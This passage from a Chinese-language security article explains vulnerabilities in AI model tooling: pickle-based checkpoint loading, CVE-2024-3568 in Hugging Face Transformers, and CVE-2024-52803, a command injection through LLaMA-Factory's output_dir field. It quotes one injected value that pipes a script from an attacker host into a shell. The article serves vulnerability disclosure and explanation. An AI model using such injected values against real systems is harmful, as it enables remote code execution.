 在model_util.py文件中read_checkpoint_meta函数的作用是当模型被下载时，用于将尝试加载模型以检索其元数据。当加载模型时，会判断是否是safetensors和gguf文件格式，safetensors格式不依赖pickle，理论上无代码执行风险。若文件不是safetensors格式，先检查是否启用病毒扫描（默认不启用）。如果扫描发现感染文件，直接报错终止。如果是 .gguf 格式，调用专用加载器。如果是其他格式（如.pth）使用 torch.load 加载。此时torch.load() 依赖 pickle 反序列化，存在漏洞利用点。  
  
## 反序列化漏洞-CVE-2024-3568  
  
  
CVE-2024-3568 是 Huggingface 的 Transformers 库中存在的一个反序列化漏洞，该漏洞源于 TFPreTrainedModel()  
 类的 load_repo_checkpoint()  
 函数在反序列化未经信任的数据时，使用了不安全的 pickle.load()  
 方法。攻击者可以通过构造恶意的序列化负载，诱使受害者在正常的训练过程中加载看似无害的检查点，从而在目标机器上执行任意代码，导致远程代码执行。  
  
  
此漏洞的利用方式可能包括供应链投毒，即攻击者在模型数据中插入恶意构造的数据，利用反序列化过程触发恶意代码执行。这类攻击的危险性在于，受害者将在不知情的情况下加载被篡改的模型 checkpoint，导致攻击者在其系统上执行任意代码。  
  
  
**3**  
►  
  
**AI大模型训练微调漏洞**  
  
  
大模型微调工具（如 LLaMA-Factory、Hugging Face Transformers）通过提供分布 式训练加速、自动化参数调优和可视化流程管理，支持用户基于特定领域数据优化模型性 能，实现快速原型开发和部署。   
  
  
LLaMA-Factory 是一个面向大模型轻量化微调的开源框架，旨在简化大模型的训练、 微调和实验管理流程。其核心功能包括分布式训练加速、可视化流程编排和自动化实验管 理，支持用户通过命令行工具或 Web 界面高效完成模型开发任务。该框架集成了DeepSpeed 和 FSDP 等技术，能够实现多卡并行训练，显著提升大规模数据处理的效 率。其提供的 Web 界面允许用户直观地管理训练参数、监控资源占用，并自动保存最优 检查点和训练指标对比结果，便于实验跟踪与复现。 CVE-2024-52803 是 LLaMA-Factory 框架中一个严重的远程命令注入漏洞，影响版 本为 <=0.9.0。该漏洞的根源在于训练过程中对用户输入的不当处理，具体表现为 Popen()函数在调用时启用了 shell=True 参数，且未对用户提供的 output_dir 值进行任 何验证或过滤。攻击者可通过构造恶意输入（如 /tmp; curl   
http://attacker.com/exploit.sh  
 | sh），将任意命令注入训练进程的上下文，从而在目标 系统上执行任意操作系统命令。   
  
  
漏洞的核心代码片段位于 src/llamafactory/webui/runner.py，如下图所示。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUBicGqnb27ibTYqwjqMKdqoDfrnWTV3TpnEheHcbYdwxTh4XgcIIxEh1Pku8VEKELBjVhmpawRMzExQ/640?wx_fmt=png&from=appmsg "")  
  
  
其中 save_cmd(args)的返回值直接拼接到命令字符串中，而未经过滤或转义。当用 户通过 Web 界面设置 output_dir 参数时，攻击者可通过注入特殊字符（如分号 ; 或管道 符号 |）实现命令注入。该漏洞的根本原因在于 Popen()函数的不安全使用，特别是 shell=True 选项将命令交给 Shell 解析，并未对用户输入进行过滤或转义。  
  
  
  
**4**  
►  
  
**AI大模型推理优化部署漏洞**  
  
  
大模型推理优化组件通过一系列技术手段（如模型轻量化转换、动态批处理、量化压 缩、内存分页机制和计算并行化），在模型部署的全生命周期中优化资源利用与计算效率。   
  
  
部署前优化阶段：将原始模型（如 PyTorch / TensorFlow 格式）转换为轻量级格式 （如 ONNX Runtime 或 TensorRT 引擎支持的格式），通过剪枝、知识蒸馏或低精度量 化（INT8 / FP16）减少模型体积和计算复杂度。   
  
  
部署后运行时优化阶段：结合服务化框架（如 FastAPI、TorchServe）实现高并发请 求处理，通过动态批处理合并小样本请求以降低 GPU 空闲率，利用缓存机制复用中间结 果，并借助硬件加速（如 NVIDIA Tensor Core、EdgeTPU）进一步提升吞吐量。  
  
